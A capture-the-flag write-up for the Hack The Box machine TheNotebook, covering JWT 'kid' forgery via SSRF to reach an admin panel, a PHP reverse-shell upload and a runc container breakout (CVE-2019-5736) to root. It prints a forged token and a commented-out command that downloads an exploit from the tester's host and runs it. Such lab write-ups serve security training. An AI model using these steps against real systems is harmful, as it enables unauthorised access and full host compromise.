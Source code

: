 ![](theNotebook_banner.png)

<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"><img loading="lazy" alt="x00tex" src="https://www.hackthebox.eu/badge/image/391067"></a>
</p>

# Enumeration

__IP-ADDR:__ 10.10.10.230 theNotebook.htb

__nmap scan:__
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|_  256 c6:06:34:c7:fc:00:c4:62:06:c2:36:0e:ee:5e:bf:6b (ED25519)
80/tcp open  http    nginx/1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web server

__web_page__

![](screenshots/web-fpage.png)

Registering with new account and notice cookie.

![](screenshots/big-cookie.png)KID manipulationJSON Web Token) authentication cookie

![](screenshots/jwt-auth.png)

# Foothold:jwt_bypass

## [JWT](https://jwt.io/introduction/) bypass

* __Useful tool:__ 
  * [jwt_tool](https://github.com/ticarpi/jwt_tool)
  * [jwt-hack](https://github.com/hahwul/jwt-hack)

* __Resources__
  * [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/JSON%20Web%20Token/README.md)
* Online JWT Encoder – Decoder [jsonwebtoken.io](https://www.jsonwebtoken.io/)
* Online jwt generator [jwtbuilder.jamiekurtz.com](https://jwt.io/)

JWT authentication cookie is divided into three parts: header, payload, signatur. These values divided by `.`

__JSON Web Token:__ `Base64(Header).Base64(Data).Base64(Signature)`

* __Header:__ contain information about the JWT configuration.
* __Data:__ used to store some users’ data.
* __Signature:__ used to prevent data from being modified. The signature uses RS256 (RSA asymmetric encryption and private key signature) and HS256 (HMAC SHA256 symmetric encryption) algorithm.

There are multiple ways to bypass [Vickie Li](https://twitter.com/vickieli7) show in his [medium blog](https://medium.com/swlh/hacking-json-web-tokens-jwts-9122efe91e4a)

On this box we are doing __"KID manipulation"__ via __"SSRF"__

__KID:__ it allows to specify the key to be used for verifying the token.

__Creating tampered jwt__

__Header__
```json
{
  "typ": "JWT",
  "alg": "RS256",
  "kid": "http://10.10.15.71/privKey.key"
}
```

__Data__
```json
{
  "username": "test12",
  "email": "test12@test.com",
  "admin_cap": true
}
```

![](screenshots/jwt-created.png)

After creating jwt save its private key in a file and start web server.
<!--
eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6Imh0dHA6Ly8xMC4xMC4xNS43MS9wcml2S2V5LmtleSJ9.eyJ1c2VybmFtZSI6InRlc3QxMiIsImVtYWlsIjoidGVzdDEyQHRlc3QuY29tIiwiYWRtaW5fY2FwIjp0cnVlfQ.h2XetEdg5NzVsL7p1QvOBxsppWmjMQBzTYP_Nctdv6GPLuJnkXgSv5gcVicyzgWD_dxmbjVG5D7ilitMxLZ0KfmRROfcZ52hKkJEaYPAi6dEfSPup59bN-5Z4A3DdTycyvJRYgG8c7s_GD5gZ9ZkNDyPurD3AnxiwQWUfJvpXE8g169a4isuFsyoGv82RHq4ZQJuWgHZsS-5ZhzenrwVIjrC_6s26bCJmJwwC1CjJkGCARlAnZQIatrkhLoXYrhTy4ELlGkZOUxyCRCsueX1CtAcA2bPDbo2gyiPDJHacgu45rPH74UUxDelQZuCDL1jrFjUZdNuaZs9T4uI3H8etA
-->

now changing the `auth` value in cookie parameter and replace with new generated jwt and forward the request. If everythings gose right we get admin panel

![](screenshots/get-admin.png)

then using hackbar to load tampered cookie

![](screenshots/hackbar-load.png)

admin panel have file upload option which allowed any file to upload __reverse shell__ too.

![](screenshots/file-upload.png)

upload php reverse shell get file name execute the file and get shell on the box.

![](screenshots/web-shell.png)

# Privesc:CVE-2019-5736

found home directory backup in the `/var/backups` folder which contains noah user home folder.

![](screenshots/back-rsa.png)

## Root

User have sudo right to run `docker exec` as any user on the box with NOPASSWD.
```bash
noah@thenotebook:~$ sudo -l
Matching Defaults entries for noah on thenotebook:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User noah may run the following commands on thenotebook:
    (ALL) NOPASSWD: /usr/bin/docker exec -it webapp-dev01*
```

__Docker version 18.06.0-ce, build 0ffa825__

searchsploit found exploit
```bash
❯ searchsploit Docker 18.06
------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                      |  Path
------------------------------------------------------------------------------------ ---------------------------------
runc < 1.0-rc6 (Docker < 18.09.2) - Container Breakout (1)                          | linux/local/46359.md
runc < 1.0-rc6 (Docker < 18.09.2) - Container Breakout (2)                          | linux/local/46369.md
------------------------------------------------------------------------------------ ---------------------------------
```

Also found the runc bianry
```bash
noah@thenotebook:~$ ls -la /usr/sbin/runc
-rwxr-xr-x 1 root root 7841912 Feb 18 13:45 /usr/sbin/runc
```

__runc version 1.0.0~rc6+dfsg1__

### Exploit CVE-2019-5736

* __[CVE-2019-5736](https://www.cvedetails.com/cve/CVE-2019-5736/):__ runc through 1.0-rc6, as used in Docker before 18.09.2 and other products, allows attackers to overwrite the host runc binary (and consequently obtain host root access) by leveraging the ability to execute a command as root within one of these types of containers: (1) a new container with an attacker-controlled image, or (2) an existing container, to which the attacker previously had write access, that can be attached with docker exec. This occurs because of file-descriptor mishandling, related to /proc/self/exe.

* [PoC by Frichetten@github](https://github.com/Frichetten/CVE-2019-5736-PoC)
* [Exploit](https://www.exploit-db.com/exploits/46369)

First get the inside container using sudo command
```bash
sudo -u root /usr/bin/docker exec -it webapp-dev01 /bin/bash
```

Upload [exploit zip](https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/46369.zip) inside the container

inside zip, modified `bad_init.sh` with command that you want to execute on the host in `BAD_BINARY` variable.

![](screenshots/edit-bad-init.png)

run make script
<!--mkdir /tmp/exp && cd /tmp/exp && wget 10.10.15.71:8000/CVE-2019-5736.zip && unzip CVE-2019-5736.zip && ./make.sh-->

![](screenshots/run-make.png)

Now exit the container and execute `/bin/bash` in the same container 2 times.
```bash
sudo -u root /usr/bin/docker exec -it webapp-dev01 /bin/bash
```

![](screenshots/run-again.png)